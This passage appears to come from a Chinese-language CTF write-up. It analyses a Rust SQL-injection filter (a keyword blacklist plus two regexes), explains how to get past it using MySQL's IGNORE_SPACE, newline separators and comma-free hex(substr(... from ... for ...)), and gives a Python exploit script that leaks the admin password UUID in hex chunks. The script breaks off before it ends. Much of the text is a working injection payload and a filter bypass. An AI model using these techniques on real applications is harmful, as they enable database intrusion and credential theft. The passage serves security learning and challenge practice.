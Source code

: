 2、分析限制：check_sql函数：

```python
fn check_sql(s: &str) -> bool {
    let blacklist = vec![";", "INSERT", "SELECT", "UNION", "OR", "\\", " ", "|", "&", "%"];
    for i in blacklist {
        if s.contains(i) {
            return false;
        }
    }
    let re1 = RegexBuilder::new(r"\w+(\(.*\)).*")
        .case_insensitive(true)
        .build()
        .unwrap();
    let re2 = Regex::new(r"\([\s\S]*,[\s\S]*").unwrap();
    if re1.find(s).is_some() || re2.find(s).is_some() {
        return false;
    }
    return true;
}
```

其中re1没什么用，因为MySQL如果开启了`IGNORE_SPACE`选项，则会忽略函数名和(之间的空白字符，这题的环境中就开启了这个选项。在每个函数的左括号前面加一个\\t就能绕过。或者，.不包含\\n，所以在每个函数的左括号后面加一个\\n也可以绕过。

re2没法绕过，它限制了形如(…,…)格式的输入，这就导致我们没法闭合单引号后再插入第二组值

无法直接闭合单引号，有查询次数限制不能盲注，因此只能利用这个单引号开始的这个字段带出admin密码。

3、绕过限制

在默认的MySQL配置中，`||` 是逻辑运算符 `OR` 的同义词，而不是字符串拼接。当前情况下，不可能把查询到的字符串结果拼接并带出来，只可能用'0'+<某个数字>带出一个数字。

由于密码是一个uuid，其中有效信息0-9 a-f的16进制表示30-39,61-66正好都不包含字母，于是我们可以每4位一组用hex带出来，hex(substr(... from ... for ...)这样也可以绕过re2的检查。

4、解题脚本

```python
def leak_admin_uuid():
    chunks = []
    starts = [1, 5, 10, 15, 20, 25, 31]
    fors = [4, 4, 4, 4, 4, 6, 6]
    for i in range(7):
        start = starts[i]
        sz = fors[i]
        # 构造避开空格黑名单的注入载荷：全部用换行替代空格，小写关键字，无逗号
        payload = (
            f"0'+(select\nhex\n(substr\n(password\nfrom\n{start}\nfor\n{sz}))from\nusers\nwhere\nadmin=1))#"
        )
        # 触发注入
        r = sess.post(f"{BASE_URL}/api/message",
                      json={"message": payload})
        assert r.json()["code"] == 0, f"injection failed @ seg {i}"
        # 读取刚写入的那段 hex
        r = sess.get(f"{BASE_URL}/api/message")
        hex_chunk = r.json()["message"]
        # hex_chunk 应该形如 "61626364"
        part = bytes.fromhex(hex_chunk).decode('ascii')
        chunks.append(part)
        print(f"segment {i+1}: '{part}'")
    # 拼回 32 字符的 hex 串
    full_hex = "".join(chunks)
    # 按 UUID 8-4-4-4-12 格式插入连字符
    uuid_str = (
        f"{full_hex[0:8]}-"
        f"{full_hex[8:12]}-"
```